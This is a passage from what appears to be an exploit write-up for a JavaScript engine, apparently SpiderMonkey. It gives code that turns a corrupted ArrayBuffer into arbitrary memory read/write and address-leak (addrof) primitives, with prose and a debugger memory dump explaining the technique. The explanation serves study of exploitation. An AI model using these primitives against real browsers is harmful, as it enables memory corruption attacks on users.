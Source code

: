 
```javascript 
    // |outer| is a byte view onto the corrupted ArrayBuffer which now allows us to arbitrarily modify the ArrayBuffer |inner|
    var inner = buffers[79];
    var outer = new Uint8Array(buffer); // here buffer = buffers[80]

    // Increase the size of the inner ArrayBuffer
    outer[43] = 0x1;

    // Object to access the process' memory
    var memory = {
        write: function(addr, data) {
            // Set data pointer of |inner|
            outer.set(RShift1(addr).bytes(), 32);
            // Uint8Array's cache the data pointer of the underlying ArrayBuffer
            var innerView = new Uint8Array(inner);
            innerView.set(data);
        },
        read: function(addr, length) {
            // Set data pointer of |inner|
            outer.set(RShift1(addr).bytes(), 32);
            // Uint8Array's cache the data pointer of the underlying ArrayBuffer
            var innerView = new Uint8Array(inner);
            return innerView.slice(0, length);
        },
        readPointer: function(addr) {
            return new Int64(this.read(addr, 8));
        },
        addrof: function(obj) {
            // To leak the address of |obj|, we set it as property of the |inner|
            // ArrayBuffer, then leak that using the existing read() method.
            inner.leakMe = obj;
            var addressOfSlotsArray = this.readPointer(Add(addressOfInnerArrayBuffer, 2*8));
            return Int64.fromJSValue(this.read(addressOfSlotsArray, 8));
        },
    };
```

`memory` object handles all of the memory read/write operation. For arbitrary read/write, it will first use the `outer` object to modify pointer in the `inner` object, then use `inner` object to read/write data. 

Note that `addrof` function is for leaking an object's address ( like `&` in the C language ). Here it uses a very clever method: **By exploiting the `slots_` member.**

The `slots_` member is used for storing the info of an object's properties. Before storing the `leakMe` property, there's nothing in `inner`'s `slots_` member:

```
gef➤  tel 0x7ffff7ebc4c0
0x00007ffff7ebc4c0│+0x00: 0x00007ffff7eb90d0  <-- group_
0x00007ffff7ebc4c8│+0x08: 0x00007ffff7eb73d0  <-- shape_
0x00007ffff7ebc4d0│+0x10: 0x0000000000000000  <-- slots_ ( empty )
0x00007ffff7ebc4d8│+0x18: 0x00000000013c7b70  <-- elements_
.........
```
